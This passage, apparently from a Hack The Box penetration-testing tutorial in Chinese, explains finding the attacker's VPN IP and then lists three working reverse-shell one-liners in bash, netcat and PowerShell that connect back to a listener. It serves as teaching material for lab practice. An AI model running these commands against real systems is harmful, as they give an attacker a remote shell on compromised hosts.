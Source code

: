 现在，我们有一个`netcat`监听器在等待连接，我们可以执行连接回连的反向shell命令。

#### 回连IP

然而，在此之前，我们需要找到我们的系统的IP地址，以便将反向连接发送回我们的机器。我们可以使用以下命令找到我们的IP地址：

回连IP

```Plaintext
jw0610a@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

在我们的示例中，我们感兴趣的IP地址位于`tun0`下，这是我们通过VPN连接到的同一HTB网络。

注意：我们连接到'tun0'上的IP地址，因为我们只能通过VPN连接到HackTheBox主机，它们无法通过Internet连接到我们，因此无法使用`eth0`通过Internet连接到我们。在实际的渗透测试中，您可能直接连接到相同的网络，或执行外部渗透测试，因此可能会通过`eth0`适配器或类似的方式进行连接。

#### 反向shell命令

我们执行的命令取决于被入侵主机运行的操作系统，即Linux还是Windows，以及我们可以访问的应用程序和命令。[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)页面上列出了我们可以使用的一系列反向shell命令，涵盖了各种选项，取决于我们入侵的主机。

某些反向shell命令比其他命令更可靠，并且通常可以尝试进行反向连接。以下是我们可以使用的可靠命令，用于在Linux受到入侵的主机上获取反向连接的`bash`，以及在Windows受到入侵的主机上获取反向连接的`Powershell`：

代码：bash

```Plaintext
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

代码：bash

```Plaintext
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

代码：powershell

```Plaintext
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$$stream = $$client.GetStream();[byte[]]$$bytes = 0..65535|%{0};while(($$i = $$stream.Read($$bytes, 0, $$bytes.Length)) -ne 0){;$$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($$bytes,0, $$i);$$sendback = (iex $$data 2>&1 | Out-String );$$sendback2 = $$sendback + "PS " + (pwd).Path + "> ";$$sendbyte = ([text.encoding]::ASCII).GetBytes($$sendback2);$$stream.Write($$sendbyte,0,$$sendbyte.Length);$$stream.Flush()};$client.Close()
```

我们可以利用我们对远程主机的利用来执行上述命令之一，例如通过Python漏洞或Metasploit模块，以获得反向连接。一旦连接成功，我们应该在我们的`netcat`监听器上收到连接：

反向shell命令
